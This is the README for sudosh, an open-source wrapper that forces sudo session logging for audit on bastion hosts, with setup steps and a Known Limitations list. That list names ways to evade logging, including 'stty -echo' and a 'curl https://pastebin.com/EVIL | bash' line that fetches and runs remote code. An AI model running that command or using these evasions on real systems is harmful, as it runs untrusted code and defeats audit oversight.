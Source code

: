 <!-- This file was automatically generated by the `build-harness`. Make all changes to `README.yaml` and run `make readme` to rebuild this file. -->
[![README Header][readme_header_img]][readme_header_link]

[![Cloud Posse][logo]](https://cpco.io/homepage)

# Sudo Shell [![Build Status](https://travis-ci.org/cloudposse/sudosh.svg?branch=master)](https://travis-ci.org/cloudposse/sudosh) [![Latest Release](https://img.shields.io/github/release/cloudposse/sudosh.svg)](https://github.com/cloudposse/sudosh/releases/latest) [![GitHub Stars](https://img.shields.io/github/stars/cloudposse/sudosh.svg)](https://github.com/cloudposse/sudosh/stargazers) [![Average time to resolve an issue](http://isitmaintained.com/badge/resolution/cloudposse/sudosh.svg)](http://isitmaintained.com/project/cloudposse/sudosh) [![Percentage of issues still open](http://isitmaintained.com/badge/open/cloudposse/sudosh.svg)](http://isitmaintained.com/project/cloudposse/sudosh) [![Slack Community](https://slack.cloudposse.com/badge.svg)](https://slack.cloudposse.com)


Sudo Shell is a wrapper to run a login shell with `sudo` for the purpose of session audit logging. 


---

This project is part of our comprehensive ["SweetOps"](https://cpco.io/sweetops) approach towards DevOps. 
[<img align="right" title="Share via Email" src="https://docs.cloudposse.com/images/ionicons/ios-email-outline-2.0.1-16x16-999999.svg"/>][share_email]
[<img align="right" title="Share on Google+" src="https://docs.cloudposse.com/images/ionicons/social-googleplus-outline-2.0.1-16x16-999999.svg" />][share_googleplus]
[<img align="right" title="Share on Facebook" src="https://docs.cloudposse.com/images/ionicons/social-facebook-outline-2.0.1-16x16-999999.svg" />][share_facebook]
[<img align="right" title="Share on Reddit" src="https://docs.cloudposse.com/images/ionicons/social-reddit-outline-2.0.1-16x16-999999.svg" />][share_reddit]
[<img align="right" title="Share on LinkedIn" src="https://docs.cloudposse.com/images/ionicons/social-linkedin-outline-2.0.1-16x16-999999.svg" />][share_linkedin]
[<img align="right" title="Share on Twitter" src="https://docs.cloudposse.com/images/ionicons/social-twitter-outline-2.0.1-16x16-999999.svg" />][share_twitter]




It's 100% Open Source and licensed under the [APACHE2](LICENSE).












## Introduction

The `sudo` command provides built-in session logging. 
Combined with [`sudoreplay`](https://www.sudo.ws/man/1.8.13/sudoreplay.man.html) 
it provides an easy way to review session logs on a 
[bastion](https://github.com/cloudposse/bastion/) host. 
When used as a system login shell, it will force session logging.

[Another common pattern](https://aws.amazon.com/blogs/security/how-to-record-ssh-sessions-established-through-a-bastion-host/) 
is to use the OpenSSH `ForceCommand` directive in `sshd_config` combined with the `script` command to log sessions. 
This is ineffective because the [user can easily bypass](http://serverfault.com/a/639814) it.  
Using `sudosh` provides a more secure alternative that cannot be bypassed since it does not depend on `ForceCommand`.

## Usage



Here's how to use it in 3 easy steps. 
Checkout the [precompiled releases](https://github.com/cloudposse/sudosh/releases) 
if you don't want to build it yourself...:

1. Enable `sudo` logging. Edit `/etc/sudoers.d/sudosh`:

  ```
  Defaults log_output requiretty
  Defaults!/usr/bin/sudoreplay !log_output
  Defaults!/sbin/reboot !log_output
  ```

2. Add this command to `/etc/shells`:

  ```
  /usr/bin/sudosh
  ```

  **Tip**: to prevent users from using other shells to login, remove those shells from `/etc/shells`.


3. Update the user `foobar` to use the `sudosh` shell. 

  ```
  chsh -s /usr/bin/sudosh foobar
  echo 'foobar ALL=(foobar) ALL' > /etc/sudoers.d/sudosh-foobar
  ```
  **NOTE:** filenames in `sudoers.d` cannot contain the `.` character


## Known Limitations

* Without `requiretty` users can easily circumvent logging of `stdin` by running `ssh user@host bash`. 
* Using `requiretty`, will require passing a pseudo TTY, which is easily accomplished by instead running `ssh -tt user@host bash`
* Users can easily circumvent logging of `stdin` by running `stty -echo`, however, you'll see the command run to disable it. =)
* Users can easily run scripts (e.g. `curl https://pastebin.com/EVIL | bash`) which would circumvent the ability to see what was executed
* There are 1000+ ways bad actors can circumvent *any* form of TTY logging (not unique to `sudosh`). 
* TTY Session logging is only recommended to keep an *honest* log of what happened.
* Capturing a byte-for-byte session log requires extension of the SSH server or perhaps a custom shell built specificically for that purpose. 








## Help

**Got a question?**

File a GitHub [issue](https://github.com/cloudposse/sudosh/issues), send us an [email][email] or join our [Slack Community][slack].

[![README Commercial Support][readme_commercial_support_img]][readme_commercial_support_link]

## Commercial Support

Work directly with our team of DevOps experts via email, slack, and video conferencing. 

We provide [*commercial support*][commercial_support] for all of our [Open Source][github] projects. As a *Dedicated Support* customer, you have access to our team of subject matter experts at a fraction of the cost of a full-time engineer. 

[![E-Mail](https://img.shields.io/badge/email-hello@cloudposse.com-blue.svg)][email]

- **Questions.** We'll use a Shared Slack channel between your team and ours.
- **Troubleshooting.** We'll help you triage why things aren't working.
- **Code Reviews.** We'll review your Pull Requests and provide constructive feedback.
- **Bug Fixes.** We'll rapidly work to fix any bugs in our projects.
- **Build New Terraform Modules.** We'll [develop original modules][module_development] to provision infrastructure.
- **Cloud Architecture.** We'll assist with your cloud strategy and design.
- **Implementation.** We'll provide hands-on support to implement our reference architectures. 




## Slack Community

Join our [Open Source Community][slack] on Slack. It's **FREE** for everyone! Our "SweetOps" community is where you get to talk with others who share a similar vision for how to rollout and manage infrastructure. This is the best place to talk shop, ask questions, solicit feedback, and work together as a community to build totally *sweet* infrastructure.

## Newsletter

Signup for [our newsletter][newsletter] that covers everything on our technology radar.  Receive updates on what we're up to on GitHub as well as awesome new projects we discover. 

## Contributing

### Bug Reports & Feature Requests

Please use the [issue tracker](https://github.com/cloudposse/sudosh/issues) to report any bugs or file feature requests.

### Developing

If you are interested in being a contributor and want to get involved in developing this project or [help out](https://cpco.io/help-out) with our other projects, we would love to hear from you! Shoot us an [email][email].

In general, PRs are welcome. We follow the typical "fork-and-pull" Git workflow.

 1. **Fork** the repo on GitHub
 2. **Clone** the project to your own machine
 3. **Commit** changes to your own branch
 4. **Push** your work back up to your fork
 5. Submit a **Pull Request** so that we can review your changes

**NOTE:** Be sure to merge the latest changes from "upstream" before making a pull request!


## Copyright

Copyright © 2017-2019 [Cloud Posse, LLC](https://cpco.io/copyright)



## License 

[![License](https://img.shields.io/badge/License-Apache%202.0-blue.svg)](https://opensource.org/licenses/Apache-2.0) 

See [LICENSE](LICENSE) for full details.

    Licensed to the Apache Software Foundation (ASF) under one
    or more contributor license agreements.  See the NOTICE file
    distributed with this work for additional information
    regarding copyright ownership.  The ASF licenses this file
    to you under the Apache License, Version 2.0 (the
    "License"); you may not use this file except in compliance
    with the License.  You may obtain a copy of the License at

      https://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing,
    software distributed under the License is distributed on an
    "AS IS" BASIS, WITHOUT WARRANTIES OR CONDITIONS OF ANY
    KIND, either express or implied.  See the License for the
    specific language governing permissions and limitations
    under the License.









## Trademarks

All other trademarks referenced herein are the property of their respective owners.

## About

This project is maintained and funded by [Cloud Posse, LLC][website]. Like it? Please let us know by [leaving a testimonial][testimonial]!

[![Cloud Posse][logo]][website]

We're a [DevOps Professional Services][hire] company based in Los Angeles, CA. We ❤️  [Open Source Software][we_love_open_source].

We offer [paid support][commercial_support] on all of our projects.  

Check out [our other projects][github], [follow us on twitter][twitter], [apply for a job][jobs], or [hire us][hire] to help with your cloud strategy and implementation.



### Contributors

|  [![Erik Osterman][osterman_avatar]][osterman_homepage]<br/>[Erik Osterman][osterman_homepage] |
|---|

  [osterman_homepage]: https://github.com/osterman
  [osterman_avatar]: https://github.com/osterman.png?size=150



[![README Footer][readme_footer_img]][readme_footer_link]
[![Beacon][beacon]][website]

  [logo]: https://cloudposse.com/logo-300x69.svg
  [docs]: https://cpco.io/docs
  [website]: https://cpco.io/homepage
  [github]: https://cpco.io/github
  [jobs]: https://cpco.io/jobs
  [hire]: https://cpco.io/hire
  [slack]: https://cpco.io/slack
  [linkedin]: https://cpco.io/linkedin
  [twitter]: https://cpco.io/twitter
  [testimonial]: https://cpco.io/leave-testimonial
  [newsletter]: https://cpco.io/newsletter
  [email]: https://cpco.io/email
  [commercial_support]: https://cpco.io/commercial-support
  [we_love_open_source]: https://cpco.io/we-love-open-source
  [module_development]: https://cpco.io/module-development
  [terraform_modules]: https://cpco.io/terraform-modules
  [readme_header_img]: https://cloudposse.com/readme/header/img?repo=cloudposse/sudosh
  [readme_header_link]: https://cloudposse.com/readme/header/link?repo=cloudposse/sudosh
  [readme_footer_img]: https://cloudposse.com/readme/footer/img?repo=cloudposse/sudosh
  [readme_footer_link]: https://cloudposse.com/readme/footer/link?repo=cloudposse/sudosh
  [readme_commercial_support_img]: https://cloudposse.com/readme/commercial-support/img?repo=cloudposse/sudosh
  [readme_commercial_support_link]: https://cloudposse.com/readme/commercial-support/link?repo=cloudposse/sudosh
  [share_twitter]: https://twitter.com/intent/tweet/?text=Sudo+Shell&url=https://github.com/cloudposse/sudosh
  [share_linkedin]: https://www.linkedin.com/shareArticle?mini=true&title=Sudo+Shell&url=https://github.com/cloudposse/sudosh
  [share_reddit]: https://reddit.com/submit/?url=https://github.com/cloudposse/sudosh
  [share_facebook]: https://facebook.com/sharer/sharer.php?u=https://github.com/cloudposse/sudosh
  [share_googleplus]: https://plus.google.com/share?url=https://github.com/cloudposse/sudosh
  [share_email]: mailto:?subject=Sudo+Shell&body=https://github.com/cloudposse/sudosh
  [beacon]: https://ga-beacon.cloudposse.com/UA-76589703-4/cloudposse/sudosh?pixel&cs=github&cm=readme&an=sudosh
